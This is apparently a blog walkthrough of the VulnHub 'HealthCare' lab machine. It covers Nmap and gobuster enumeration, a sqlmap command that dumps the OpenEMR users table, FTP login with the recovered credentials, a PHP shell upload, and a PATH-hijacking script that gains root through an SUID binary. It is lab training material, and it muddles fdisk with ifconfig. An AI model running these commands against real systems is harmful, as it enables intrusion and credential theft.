 ```yaml
---
layout : post
title: HealthCare
image : /img/At0micenergy.jpg
date: 2021-03-01 04:43 EST

tags: [sqlmap,PathHijacking Linux,php File Upload]
---
```


# Nmap

```
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
|_http-title: Coming Soon 2
MAC Address: 08:00:27:12:B9:5A (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix

```
# Enumeration

<h3>Gobuster</h3>

![]({{site.baseurl}}/img/vulnhub/EVM1/gobutser.png)

found openemr // lead to sql injection at login page 

# Exploitation 

```
sqlmap -u http://10.0.2.37/openemr/interface/login/validateUser.php?u=admin -D openemr -T users --dump

```

![]({{site.baseurl}}/img/vulnhub/EVM1/sqlmap.png)

from `sql creds` , logged into `ftp`

```
medical : medical 
ackbar : admin 
```

![]({{site.baseurl}}/img/vulnhub/EVM1/ftp.png)

uploaded php shell into `var/www/` folder 

got reverseShell 

# Privilage Esclation 

from suid , healthChecker is executing the fdisk , ipconfig without path 

![]({{site.baseurl}}/img/vulnhub/EVM1/suid.png)

can override the  `ifconfig` , path 

The program is vulnerable because we control the PATH and the program doesn’t use the absolute path to execute the programs so we can execute anything we want as root. To get root I’ll just create a script that sets the SUID bit on /bin/bash, name it fdisk and call /usr/bin/healthcheck after setting the path to my current directory so it doesn’t execute the real fdisk program but my own script

```bash
cd /tmp 

echo "/bin/bash" > ifconfig

chmod +x ifconfig

export PATH=/tmp:$PATH

/usr/bin/healthcheck

//got root access

```



![]({{site.baseurl}}/img/vulnhub/EVM1/root.png)